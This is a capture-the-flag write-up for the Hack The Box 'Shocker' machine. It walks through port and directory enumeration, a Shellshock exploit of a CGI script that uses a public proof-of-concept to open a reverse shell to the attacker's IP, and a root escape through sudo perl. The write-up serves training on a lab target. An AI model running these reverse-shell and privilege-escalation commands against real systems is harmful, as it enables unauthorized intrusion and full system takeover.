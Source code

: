 ```yaml
---
tags:
  - linux
---
```

# HTB: [Shocker](https://app.hackthebox.com/machines/Shocker)

> [!tip]- Summary with Spoilers
> - This Linux machine was vulnerable to [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), allowing RCE via the `user.sh` CGI script.
> - Initial access was achieved as `shelly`, and privilege escalation was possible by leveraging `sudo` to run `perl` as `root`.

## Enumeration

```console
  $ nmap -n -sCV -T4 -p1-65535 -v $t
  [...]
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-methods:
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-title: Site doesn't have a title (text/html).
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  [...]
```

`ffuf` directory scan:

```console
$ ffuf -ic -v -w ~/list.txt -u http://${t}/FUZZ/
[...]

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 112ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ: cgi-bin

:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Searching the `cgi-bin` directory:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/big.txt -u http://${t}/cgi-bin/FUZZ.sh
[...]

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 126ms]
| URL | http://10.10.10.56/cgi-bin/.htpasswd.sh
    * FUZZ: .htpasswd

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 114ms]
| URL | http://10.10.10.56/cgi-bin/.htaccess.sh
    * FUZZ: .htaccess

[Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 128ms]
| URL | http://10.10.10.56/cgi-bin/user.sh
    * FUZZ: user

:: Progress: [20476/20476] :: Job [1/1] :: 323 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

```console
$ curl -si http://${t}/cgi-bin/user.sh
HTTP/1.1 200 OK
Date: Wed, 04 Oct 2023 17:53:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 13:53:29 up  1:13,  0 users,  load average: 0.01, 0.12, 0.10
```

## Exploitation

This host is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). I'll use [shellpoc.py](https://github.com/zalalov/CVE-2014-6271/blob/master/shellpoc.py):

```console
$ python2 shellpoc.py 
Usage: shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
Example: shellpoc.py localhost /cgi-bin/test.cgi 10.0.0.1/8080

  e@k(!3826):~
$ python2 shellpoc.py $t /cgi-bin/user.sh 10.10.14.20/443
```

Catching the reverse shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 53514
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
d2b360[...]

```

## Privilege Escalation

`perl` is available via `sudo`, from which we can escape to a `root` shell:

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
87d34c[...]
```
